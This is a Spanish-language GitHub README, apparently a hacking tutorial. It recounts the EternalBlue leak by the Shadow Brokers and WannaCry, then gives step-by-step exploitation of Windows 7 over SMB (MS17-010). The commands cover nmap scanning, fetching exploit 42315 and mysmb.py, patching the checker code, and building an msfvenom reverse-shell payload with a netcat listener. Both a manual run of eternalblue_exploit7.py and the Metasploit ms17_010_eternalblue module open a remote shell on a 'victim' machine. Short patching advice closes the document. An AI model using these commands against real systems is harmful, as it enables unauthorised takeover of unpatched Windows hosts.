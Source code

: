<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, hay que sustituir las líneas 229 y 230 por:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)

Si ejecutamos el checker ya funciona correctamente:

![4](https://user-images.githubusercontent.com/75953873/188350245-47a40103-1139-4f99-876a-8abbde4c9e0a.png)

Named pipes aceptados: browser, netlogon, lsarpc, samr.

Posiblemente les lance el siguiente error de autenticación de usuario:

![7](https://user-images.githubusercontent.com/75953873/189492357-69c6b1dd-33fa-4555-930c-5ad4b2ae8109.png)

Así que probemos con otro exploit más actualizado: https://github.com/3ndG4me/AutoBlue-MS17-010

![8](https://user-images.githubusercontent.com/75953873/189492436-04e8382c-bcbb-46ad-b73f-f55629b52f5e.png)

Hay varias versiones del exploit, el que nos interesa es `eternalblue_exploit7.py`. Seguidamente, generamos una shellcode con msfvenom para escuchar las conexiones de la máquina:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP-LOCAL> LPORT=<PUERTO> -f exe -o <DIRECTORIO/NOMBRE>
```
![9](https://user-images.githubusercontent.com/75953873/189492832-47a6b221-db9c-4ee3-995f-3b14251ee22e.png)

Después ejecutamos Netcat y ponemos a escucha el puerto del shellcode:
```
nc -lvnp
```

Finalmente ejecutamos el exploit 7 con la ruta del shellcode generado:
```
python3 eternalblue_exploit7.py <IP> <SHELLCODE>
```
![10](https://user-images.githubusercontent.com/75953873/189492954-a904b963-6491-407c-99cd-7416ad9214f1.png)

En la terminal de Netcat se abrirá una shell remota en donde podemos interactuar con la máquina víctima:

![11](https://user-images.githubusercontent.com/75953873/189493003-dd72ab81-16e2-431b-9178-c7127a5ffec8.png)

Es **IMPORTANTE** aclarar que eternalblue no siempre funciona a la primera, es por eso que hay que reintentar nuevamente hasta que la conexión se establezca.

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Automatizado con Metasploit

Si bien es cierto que hacerlo manual lleva más tiempo, es aquí donde entra Metasploit para facilítarnos la vida. Personalmente prefiero llevar el ataque de forma manual, pero tampoco quiero olvidarme de los fans de Metasploit; que en sí no es malo utilizarlo, sino hacerlo sin tener idea de que ocurre por detrás del proceso. Para comenzar con el procedimiento, podemos verificar si la máquina es vulnerable a eternalblue con el scanner ya incorporado del framework:
```
msfconsole
search eternalblue scanner
use auxiliary/scanner/smb/smb_ms17_010  |  use 0
set RHOSTS <IP>
```
![12](https://user-images.githubusercontent.com/75953873/189494844-dfe29158-4686-471f-b2b4-684974ef84d9.png)

El host es vulnerable:

![13](https://user-images.githubusercontent.com/75953873/189494874-d7e1d03c-aaeb-41de-93ee-ea52e7c0fbf8.png)

Por último, seleccionamos el exploit `ms17_010_eternalblue` y configuramos el RHOSTS nuevamente:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
```
![14](https://user-images.githubusercontent.com/75953873/189494935-f8034937-e535-4bd7-bf98-e62d28c85075.png)

Metasploit se encargará de ejecutar el exploit las veces que sea necesario para obtener una shell remota, como mencione más arriba, eternalblue no siempre funciona a la primera (el host anterior fue reemplazado).

![15](https://user-images.githubusercontent.com/75953873/189495269-8279bc78-7a70-446f-ba9e-b8ed896a5411.png)

<h1 align="center"></h1>

</br>

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. En la actualidad esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que en la actualidad hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas. Se recomienda siempre mantener el equipo actualizado, y si es posible, tener un segundo antivirus y no abrir correos desconocidos o "spam" ya que en muchas ocasiones los atacantes incrustan el exploit en un software legítimo para que la víctima lo descargue y ejecute en su máquina.



#### ~R3LI4NT~
